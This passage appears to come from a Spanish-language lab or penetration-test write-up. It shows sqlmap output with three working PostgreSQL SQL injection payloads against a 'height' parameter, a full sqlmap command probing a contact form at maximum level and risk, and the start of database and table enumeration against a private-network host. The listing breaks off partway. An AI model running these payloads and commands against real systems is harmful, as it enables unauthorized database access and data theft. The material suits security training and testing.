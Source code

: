 	    Type: error-based
	    Title: PostgreSQL AND error-based - WHERE or HAVING clause
	    Payload: weight=70&height=174' AND 4132=CAST((CHR(113)||CHR(112)||CHR(106)||CHR(113)||CHR(113))||(SELECT (CASE WHEN (4132=4132) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(120)||CHR(98)||CHR(113)) AS NUMERIC)-- hqqf&age=38&gender=Male&email=test@duckman.com

	    Type: stacked queries
	    Title: PostgreSQL > 8.1 stacked queries (comment)
	    Payload: weight=70&height=174';SELECT PG_SLEEP(5)--&age=38&gender=Male&email=test@duckman.com

	    Type: time-based blind
	    Title: PostgreSQL > 8.1 AND time-based blind
	    Payload: weight=70&height=174' AND 6265=(SELECT 6265 FROM PG_SLEEP(5))-- wkpB&age=38&gender=Male&email=test@duckman.com
	---

	```
	- contact.php:
	--data: Contiene los datos de la solicitud con los valores actuales.
	-p: Incluye los parámetros name, email, subject y message para probar inyecciones en ellos.
	--headers: Incluye las cabeceras específicas de esta solicitud (X-Requested-With, Accept-Language, etc.).
	--level=5 y --risk=3: Aseguran una exploración más exhaustiva.
	
	```
	sqlmap -u "http://192.168.193.49/contact.php" --method=POST --data="name=duckman&email=test%40duckman.com&subject=subject+field&message=message+field" -p "name,email,subject,message" --headers="X-Requested-With: XMLHttpRequest; Accept-Language: en-US,en;q=0.9; Accept: */*; Content-Type: application/x-www-form-urlencoded; charset=UTF-8; User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36; Origin: http://192.168.193.49; Referer: http://192.168.193.49/contact.php; Accept-Encoding: gzip, deflate, br; Connection: keep-alive" --level=5 --risk=3 --batch
	```
3. Paso 3: Comenzamos con la enumeracion de la bases de datos disponibles a traves del parametro vulnerable:
	- **sqlmap -u "http://192.168.193.49/class.php" --data="weight=70&height=174" -p height --dbs**
	```
	available databases [3]:
	[*] information_schema
	[*] pg_catalog
	[*] public

	```
	- ** sqlmap -u "http://192.168.193.49/class.php" --data="weight=70&height=174" -p height --tables**
	```
	Database: public
	[1 table]
	+-------------------------+
	| users                   |
	+-------------------------+

	Database: pg_catalog
	[62 tables]
	+-------------------------+
	| pg_aggregate            |
	| pg_am                   |
	| pg_amop                 |
	| pg_amproc               |
	| pg_attrdef              |
	| pg_attribute            |